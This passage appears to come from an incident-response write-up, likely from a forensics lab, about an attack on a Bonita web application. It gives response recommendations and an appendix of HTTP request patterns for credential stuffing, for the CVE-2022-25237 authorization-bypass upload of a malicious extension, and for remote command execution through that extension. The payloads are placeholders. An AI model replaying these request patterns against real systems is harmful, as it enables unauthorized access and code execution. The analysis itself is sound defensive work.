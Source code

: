 ### 11.3 Response Improvements

**Incident Response:**
* **Detection Speed:** Need faster detection and response to credential stuffing attacks
* **Automated Response:** Implement automated blocking of suspicious IP addresses
* **Escalation Procedures:** Improve escalation for critical vulnerability exploitation
* **Communication Plans:** Enhance internal and external communication procedures

**Recovery Planning:**
* **Backup Strategy:** Ensure clean backup availability for rapid recovery
* **System Hardening:** Implement immediate hardening procedures post-incident
* **Validation Testing:** Establish comprehensive testing procedures for system restoration
* **Documentation:** Maintain detailed incident documentation for lessons learned

---

## 12. Technical Appendix

### 12.1 HTTP Request Pattern Analysis

**Credential Stuffing Pattern:**
```http
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

username=[USERNAME]&password=[PASSWORD]&redirectUrl=&tenant=1
```

**CVE-2022-25237 Exploitation Pattern:**
```http
POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Content-Type: multipart/form-data; boundary=----[BOUNDARY]
Content-Length: 15163

------[BOUNDARY]
Content-Disposition: form-data; name="file"; filename="rce_api_extension.zip"
Content-Type: application/octet-stream

[MALICIOUS_EXTENSION_DATA]
------[BOUNDARY]--
```

**Remote Code Execution Pattern:**
```http
GET /bonita/API/extension/rce?p=0&c=1&cmd=[COMMAND] HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
```
